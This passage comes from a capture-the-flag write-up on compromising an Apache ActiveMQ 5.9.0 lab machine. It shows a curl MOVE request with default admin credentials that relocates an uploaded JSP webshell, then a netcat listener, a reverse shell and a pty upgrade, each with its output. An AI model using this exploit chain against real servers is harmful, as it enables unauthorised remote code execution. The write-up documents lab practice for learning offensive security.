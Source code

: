 The absolute path is in `/opt/apache-activemq-5.9.0/webapps/fileserver/`.

- Then, use MOVE method to move the JSP webshell to `/admin` directory:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# curl -vv -X MOVE -H 'Destination: file:///opt/apache-activemq-5.9.0/webapps/admin/exploit.jsp' 'http://admin:admin@broker.thm:8161/fileserver/exploit.jsp' 
*   Trying 10.10.179.241:8161...
* Connected to broker.thm (10.10.179.241) port 8161 (#0)
* Server auth using Basic with user 'admin'
> MOVE /fileserver/exploit.jsp HTTP/1.1
> Host: broker.thm:8161
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.86.0
> Accept: */*
> Destination: file:///opt/apache-activemq-5.9.0/webapps/admin/exploit.jsp
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Server: Jetty(7.6.9.v20130131)
< 
* Connection #0 to host broker.thm left intact
```

**We now should able to use the webshell in `/admin/exploit.jsp`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/broker/images/Pasted%20image%2020230101223717.png)

Let's get a reverse shell!

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# nc -lnvp 443
listening on [any] 443 ...
```

- Run the webshell:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/broker/images/Pasted%20image%2020230101223802.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# nc -lnvp 443                                                                                        
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.179.241] 37646
python3 -c "import pty;pty.spawn('/bin/bash')"
bash-5.0$ whoami;hostname;id;hostname -I
activemq
activemq
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
10.10.179.241 172.17.0.1
```
